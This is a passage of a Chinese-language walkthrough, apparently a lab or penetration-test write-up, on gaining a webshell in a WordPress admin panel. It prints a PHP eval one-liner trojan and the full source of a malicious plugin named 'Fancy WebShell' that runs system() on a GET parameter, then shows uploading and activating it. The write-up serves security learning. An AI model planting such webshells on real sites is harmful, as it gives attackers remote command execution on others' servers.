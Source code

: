 ![20220507_2336.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/864f85ecb0a0e2f470d0fad29ca884bc.png)

3. 通过上传插件的方式

![20220507_2333.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/238fb8c2f281a115cfce8e69bd28f735.png)


![20220507_2331.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/7514c324cd5137b4f94fc43aea453514.png)

我们先尝试了媒体上传，发现这个wordpress 并没有文件上传漏洞,然后我们进行尝试修改 `404.php` 来尝试使用PHP来反弹WebShell 发现我们并不能成功上传修改.
一句话木马：
```php
eval($_POST['ant']);
```

![20220507_2340.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/77eab588eb70ee8751385bb4de804621.png)

这时候我们还有一个上传插件的方式来获取WebShell
因为 wordpress 插件的编写相对比较简单,且使用的语言是 PHP 所以我们可以通过自己编写的方式,上传自己写的反弹 Shell 插件

**首先我们需要编写 wordpress 的插件** 如下
```php
<?php
/**
* Plugin Name: Fancy WebShell
* Plugin URI: http://zhouhaobusy.com/
* Description: This is a Webshell by Busy To Live
* Version: 1.0
* Author: Busy To Live
* Author URI: http://zhouhaobusy.com
* License: http://zhouhaobusy.com/
*/

if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }

?>
```
因为 wordpress 后端插件上传只接收 zip 文件格式,所以我们先对我们写好的插件进行zip压缩

![20220507_2351.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/dad769629aa2ed1c6d09f30803d0ca62.png)
然后再将该zip文件上传上去.
![20220507_2352.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/557b9094d540e8f131c51e558860e618.png)
看网站的反馈,我们应该是成功上传了我们所编写的插件

![20220507_2353.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/21dac7013ac0854f69dfc826d252cf19.png)

上传成功后我们还需要对我们所上传的插件进行激活,只需要点击 `Activate Plugin` 即可,激活之后我们可以成功在插件列表里看见我们所编写的插件. `Fancy WebShell`


![20220507_2354.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/1f40ba5d19eb413a824a01b9b95fdefc.png)
